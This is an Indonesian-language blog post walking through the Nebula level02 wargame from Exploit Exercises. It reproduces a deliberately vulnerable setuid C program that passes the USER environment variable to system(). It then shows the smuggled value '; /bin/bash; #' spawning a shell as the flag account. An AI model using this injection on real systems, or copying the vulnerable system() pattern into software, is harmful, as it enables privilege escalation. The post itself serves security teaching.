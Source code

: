 +++
author = "kernel-panic"
categories = ["Security", "Nebula"]
date = "2018-01-09T05:30:30+00:00"
description = "Security Wargames"
featured = "x44905647871.jpg"
featuredalt = "Nebula Level02"
featuredpath = "https://beeimg.com/images"
linktitle = ""
title = "Exploit Exercises - Nebula Level02"
type = "post"

+++
Dalam {{< url-link "level02" "https://exploit-exercises.com/nebula/level02/" "target">}} ini menginstruksikan kita untuk meninjau kode C yang rentan dan menemukan vektor serangannya. Program ini membahas kerentanan dari {{< url-link "tingkat sebelumnya" "https://muhammadzakyzulfiqor.xyz/article/nebula-level01/" "target">}} namun ada vektor baru.

Source code untuk referensinya disertakan di bawah ini:

    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>
    
    int main(int argc, char **argv, char **envp)
    {
    char *buffer;
    
    gid_t gid;
    uid_t uid;
    
    gid = getegid();
    uid = geteuid();
    
    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);
    
    buffer = NULL;
    
    asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
    printf("about to call system(\"%s\")\n", buffer);
    
    system(buffer);
    }

Seperti yang bisa kamu lihat, "echo" dipanggil oleh path absolutnya tetapi getenv("USER")) memanggil variabel lingkungan $USER. Seperti masalah di level01, variabel ini diatur dalam shell saat ini yang dapat dimanipulasi.

Mari kita modifikasi variabel $USER untuk memasukkan input yang berbeda.

    level02@nebula:/home/flag02$ echo ${USER}
    level02
    level02@nebula:/home/flag02$ USER="; /bin/bash; #"
    level02@nebula:/home/flag02$ echo ${USER}
    ; /bin/bash; #

Seperti yang dapat dilihat dalam kode di atas, saya memodifikasi variabel lingkungan USER yang menjadi berisi "; /bin/bash; #".

Titik  koma ditambahkan untuk menghentikan perintah saat ini dan memulai yang baru, yang memungkinkan kita menghentikan panggilan "echo" dan _spawn a shell_. Diakhir, saya menambahkan  sebuah _octothorp (#)_ untuk memberi komentar pada garis "is cool" yang akan menciptakan keluaran yang salah.

Mari kita jalankan flag02 dan amati hasilnya:

    level02@nebula:/home/flag02$ id
    uid=1003(level02) gid=1003(level02) groups=1003(level02)
    level02@nebula:/home/flag02$ ./flag02
    about to call system("/bin/echo ; /bin/bash; # is cool")
    
    flag02@nebula:/home/flag02$ id
    uid=997(flag02) gid=1003(level02) groups=997(flag02),1003(level02)
    flag02@nebula:/home/flag02$ getflag
    You have successfully executed getflag on a target account

Dan yaps, trik ini berhasil. Tingkat ini menunjukkan bahaya penggunaan variabel lingkungan dalam script dan masukan pengguna yang dipercaya.

<div class="videoyoutube"><div class="video-responsive"><iframe allowfullscreen="1" class="embedded-video-large" src="https://www.youtube.com/embed/hfsHjJbE6J8?rel=0"></iframe></div></div>
